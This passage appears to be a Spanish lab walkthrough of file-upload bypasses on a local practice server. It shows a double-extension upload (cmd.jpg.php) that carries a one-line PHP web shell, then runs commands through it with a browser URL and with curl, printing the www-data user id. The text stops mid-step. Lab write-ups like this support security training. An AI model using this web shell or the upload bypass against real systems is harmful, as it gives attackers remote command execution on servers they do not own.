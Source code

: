 ## Ataque de doble extensión

Acción:

```bash
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.jpg.php"

Content-Type: application/x-php



<?php
  system($_GET['cmd']);
?>
```

Resultado:

```bash
http://localhost:9001/upload51/uploads/cmd.jpg.php?cmd=id 
```

Explicación:  podemos añadir (según este escrito el código) una doble extensión y sortear así la restricción

> Una subida de archivo con doble extensión (`.jpg.php`) y encabezado `Content-Type: image/jpeg` podría evadir tanto controles por nombre como por tipo MIME

---

## Bypass de endpoint de descarga

Acción:

```bash
view-source:http://localhost:9001/upload56/pwned/cmd.php?cmd=id
```

Resultado:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Acción:

```bash
curl -s -X GET "http://localhost:9001/upload56/pwned/cmd.php?cmd=id"

```

Resultado:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Acción:
